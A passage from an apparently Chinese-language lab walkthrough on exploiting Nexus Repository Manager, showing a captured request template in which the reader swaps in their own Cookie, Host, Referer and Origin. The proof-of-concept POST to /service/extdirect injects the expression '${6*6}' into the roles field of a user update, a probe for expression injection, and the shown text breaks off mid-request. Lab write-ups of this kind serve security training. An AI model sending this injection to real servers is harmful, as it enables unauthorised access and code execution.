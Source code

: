 <img src="picture/nexus抓包.png" alt="nexus抓包" style="zoom:33%;" />

4.然后把自己的Cookie、HOST、Referer、Origin都替换到下面POC中：

> 其中`Cookie`为抓包中所含有的
>
> `HOST`：{目标靶场ip}:{port}
>
> `Referer`: http://{目标靶场ip}:{port}/
>
> `Origin`: http://{目标靶场ip}:{port}

```http
POST /service/extdirect HTTP/1.1
Host: 192.168.109.4:63019
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
X-Nexus-UI: true
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Cookie: NXSESSIONID=504f1e12-9a30-4d3f-a5fe-42dc882aad03
Referer: http://192.168.109.4:63019/
X-Requested-With: XMLHttpRequest
Content-Type: application/json
Origin: http://192.168.109.4:63019
Content-Length: 308

{
  "action": "coreui_User",
  "method": "update",
  "data": [
    {
      "userId": "admin",
      "version": "1",
      "firstName": "Administrator",
      "lastName": "User",
      "email": "admin@example.org",
      "status": "active",
      "roles": ["${6*6}"]
    }
  ],
```